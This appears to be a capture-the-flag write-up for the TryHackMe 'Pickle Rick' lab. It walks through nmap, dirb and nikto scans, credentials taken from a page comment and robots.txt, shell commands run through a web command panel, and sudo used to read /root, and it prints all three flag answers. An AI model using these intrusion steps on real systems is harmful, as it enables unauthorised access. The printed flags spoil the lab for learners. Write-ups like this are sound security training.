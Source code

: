 ## Pickle Rick @TryHackMe.com

## Difficulty: EASY

## Keywords and tools: nmap, nikto, dirb, directory traversal


#ping the target (target IP will be given after you've joined the room)

`ping 10.10.102.120`

PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms

#nmap scan

`sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120`

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool


#connect to web app with Firefox
#inspect the page source 

<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->


#Check /robots.txt
Wubbalubbadubdub

#Maybe a password?
#Let's try ssh.


ssh R1ckRul3s@10.10.102.120
R1ckRul3s@10.10.102.120: Permission denied (publickey).

#No success. Will need ssh key.
  
  

#scan the target for possibly hidden content with dirb
dirb http://10.10.102.120/

#nothing special found, lets try nikto
nikto -h 10.10.102.120

#nikto found an /login.php page, lets see it and try to login

username: R1ckRul3s
password: Wubbalubbadubdub

#we get a command panel with a command execution box, lets try typing 'whoami'
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled

#open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

#and we have our first flag


#open the http://10.10.102.120/clue.txt
Look around the file system for the other ingredient.

#lets try directory traversal
cd ../../../../; ls

#works, lets explore home

cd /home; ls
cd /home/rick; ls

#we see 'second ingredients', and since cat-command is disabled, lets try 'less'

less /home/rick/"second ingredients"
jerry tear

#now we got our second flag


#lets see if we have sudo

sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice

#we got all 3 flags.
